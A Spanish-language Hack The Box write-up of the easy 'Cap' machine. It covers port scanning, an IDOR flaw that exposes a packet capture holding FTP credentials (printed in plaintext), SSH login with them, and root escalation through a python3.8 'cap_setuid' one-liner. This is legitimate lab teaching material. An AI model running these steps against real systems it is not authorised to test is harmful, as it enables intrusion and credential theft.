








+++
author = "Andrés Del Cerro"
title = "Hack The Box: Cap Writeup | Easy"
date = "2024-08-20"
description = ""
tags = [
    "HackTheBox",
    "Cap",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Network Security",
    "Reverse Shell",
    "Privilege Escalation",
    "Linux",
    "Insecure object direct reference",
    "Information Leakage",
    "Abusing cap_setuid"
]

+++

# Hack The Box: Cap Writeup

Welcome to my detailed writeup of the easy difficulty machine **"Cap"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```shell
$ rustscan -a 10.129.237.34 --ulimit 5000 -g
10.129.237.34 -> [22,21,80]
```

```shell
$ nmap -p22,21,80 -sCV 10.129.237.34 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 18:06 CEST
Stats: 0:01:48 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 18:09 (0:00:54 remaining)
Nmap scan report for 10.129.237.34
Host is up (0.035s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Tue, 20 Aug 2024 14:06:43 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Tue, 20 Aug 2024 14:06:37 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Tue, 20 Aug 2024 14:06:38 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94SVN%I=7%D=8/20%Time=66C4BF0C%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,4C56,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\
SF:x20Tue,\x2020\x20Aug\x202024\x2014:06:37\x20GMT\r\nConnection:\x20close
SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
SF:19386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\
SF:">\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20
SF:\x20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x
SF:20\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<me
SF:ta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sca
SF:le=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"im
SF:age/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x
SF:20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css
SF:\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/
SF:font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\
SF:x20href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20r
SF:el=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20
SF:\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.mi
SF:n\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/stati
SF:c/css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOpt
SF:ions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Tue,
SF:\x2020\x20Aug\x202024\x2014:06:38\x20GMT\r\nConnection:\x20close\r\nCon
SF:tent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20GET,\x20HEAD,\x2
SF:0OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20t
SF:ext/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\
SF:x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<bod
SF:y>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Inv
SF:alid\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;R
SF:TSP/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,
SF:189,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x
SF:20Tue,\x2020\x20Aug\x202024\x2014:06:43\x20GMT\r\nConnection:\x20close\
SF:r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x202
SF:32\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\
SF:x20Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</
SF:h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20
SF:server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x2
SF:0check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.33 seconds
```
# UDP Enumeration

```shell
$ sudo nmap --top-ports 1500 10.129.237.34 -sU --min-rate 5000 -n -Pn -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-20 18:15 CEST
Nmap scan report for 10.129.237.34
Host is up (0.036s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
1040/udp  closed netarx
17638/udp closed unknown
24875/udp closed unknown
28098/udp closed unknown
34422/udp closed unknown
64481/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.88 seconds
```

`nmap` lanza unos scripts básicos de reconocimiento entre los que se incluye el script [ftp-anon](https://nmap.org/nsedoc/scripts/ftp-anon.html) y no nos ha reportado nada, por lo cual no podemos iniciar sesión al FTP como el usuario `anonymous`
# HTTP Enumeration

`whatweb` no nos reporta ningún CMS pero nos reporta que el servidor web utilizado por detrás es `gunicorn`, un servidor web creado en python.
```shell
$ whatweb http://10.129.237.34
http://10.129.237.34 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[gunicorn], IP[10.129.237.34], JQuery[2.2.4], Modernizr[2.8.3.min], Script, Title[Security Dashboard], X-UA-Compatible[ie=edge]
```

En el sitio web podemos ver una funcionalidad que escanea los paquetes y los reporta posteriormente, además nos podemos descargar el archivo `pcap`


Podemos ver que los paquetes son reales cuando mientras hace el escaneo que dura 5 segundos, intentamos conectarnos al FTP.


También hay otra funcionalidad que ejecuta el comando `ifconfig` y nos reporta el output.


Y lo mismo para el comando `netstat`


# IDOR
Para ver el escaneo vemos que se utiliza un ID, al probar el ID 0 -> http://10.129.237.34/data/0

Vemos lo siguiente....


Para descargar los archivos `pcap` se utiliza esta ruta, donde 3 es la referencia al archivo.


Podemos probar a descargar el archivo del escaneo con ID 0.
Y al analizarlo vemos un inicio de sesión por FTP para el usuario `nathan`


Y la credencial `Buck3tH4TF0RM3!`


Podemos ver que ahora por FTP podemos acceder con estas credenciales y ver la flag del usuario.
```shell
$ ftp nathan@10.129.237.34
Connected to 10.129.237.34.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||57273|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Aug 20 14:04 user.txt
```

Pero también son válidas para acceder por SSH
```shell
$ sshpass -p 'Buck3tH4TF0RM3!' ssh nathan@10.129.237.34
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Aug 20 14:38:54 UTC 2024

  System load:           0.0
  Usage of /:            36.7% of 8.73GB
  Memory usage:          21%
  Swap usage:            0%
  Processes:             228
  Users logged in:       0
  IPv4 address for eth0: 10.129.237.34
  IPv6 address for eth0: dead:beef::250:56ff:fe94:7af0

  => There are 4 zombie processes.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt 
d5737f158e21c61...
```

# Privilege Escalation
Tras enumerar básicamente la máquina, al llamarse `cap` podemos ver las capabilities que tienen los binarios y...

```shell
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

## Abusing `cap_setuid`
Vemos que `python3.8` tiene la capability `cap_setuid` , así que en este punto ya esta máquina es un regalo.

Esta capability permite a un proceso cambiar su ID de usuario efectivo (`UID`) arbitrariamente. En un sistema típico de Unix, esta capacidad está relacionada con la administración de permisos y la identificación de usuarios.

Para escalar privilegios podemos leer este apartado en [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities)

Y simplemente podemos escalar privilegios utilizando el binario de python para cargar librería `os` y cambiando nuestro UID a 0 (root) para acto seguido invocar una shell.

```shell
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

Podemos leer la flag de `root`
```shell
root@cap:/root# cat root.txt
0d33dd27c2c26....
```

¡Y ya estaría!

Happy Hacking! 🚀
